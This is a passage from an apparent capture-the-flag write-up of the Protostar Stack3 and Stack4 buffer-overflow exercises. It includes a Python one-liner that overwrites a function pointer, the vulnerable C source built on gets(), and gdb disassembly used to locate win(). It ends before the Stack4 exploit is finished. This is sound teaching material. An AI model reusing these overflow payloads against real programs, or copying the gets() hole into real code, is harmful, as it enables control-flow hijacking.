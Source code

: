 With this memory address: 0x08048424 we can use the buffer overflow to overwrite the fp variable with the address we found and get the code to jump to that location and run whatever is there.

### Exploit Code
```
>>> struct.pack("<L",0x08048424)
'$\x84\x04\x08'

python -c "print 'A' * 64 + '$\x84\x04\x08'" | ./stack3
```

## Stack4
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
This challenge is similar to the other, but in this one we will be overwriting the "EIP" register instead of a variable to get the code to change as we please.

To do this I did the following steps.

First let's check for the location in memory the "win()" function is situated. Using gdb i discovered this to be 0x080483f4.
```
gdb-peda$ disassemble win
Dump of assembler code for function win:
   0x080483f4 <+0>:	push   ebp
   0x080483f5 <+1>:	mov    ebp,esp
   0x080483f7 <+3>:	sub    esp,0x18
   0x080483fa <+6>:	mov    DWORD PTR [esp],0x80484e0
   0x08048401 <+13>:	call   0x804832c <puts@plt>
   0x08048406 <+18>:	leave  
   0x08048407 <+19>:	ret    
End of assembler dump.
```
Now we can use struct.pack from python to have the address ready to be used later.
```
>>> struct.pack("<L",0x080483f4)
'\xf4\x83\x04\x08'
```
